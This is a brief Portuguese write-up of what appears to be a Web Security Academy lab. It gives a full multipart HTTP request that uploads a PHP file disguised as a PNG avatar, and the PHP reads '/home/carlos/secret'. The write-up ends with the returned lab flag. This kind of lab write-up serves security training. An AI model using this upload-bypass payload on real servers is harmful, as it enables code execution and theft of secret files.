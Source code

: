 Crie uma requisição POST
````
POST /my-account/avatar HTTP/1.1
Host: acbe1f4b1e086478c0a92692004d00be.web-security-academy.net
Cookie: session=gBK9dlWNwY8urA2E7ctQF8WVvlfDl1Qq
Content-Length: 460
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://acbe1f4b1e086478c0a92692004d00be.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRdUCY49NuOd1fNFA
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://acbe1f4b1e086478c0a92692004d00be.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryRdUCY49NuOd1fNFA
Content-Disposition: form-data; name="avatar"; filename="pizza.php"
Content-Type: image/png

 <?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundaryRdUCY49NuOd1fNFA
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryRdUCY49NuOd1fNFA
Content-Disposition: form-data; name="csrf"

rXWNyBHwjrmPCnr1UWmHhUWLJeUOVWPL
------WebKitFormBoundaryRdUCY49NuOd1fNFA--
````

Após alguns segundos o retorno 200 aparece com a flag

Flag: `qgwDkCdB1KpCloW81AVQE263QNw8uGsZ`
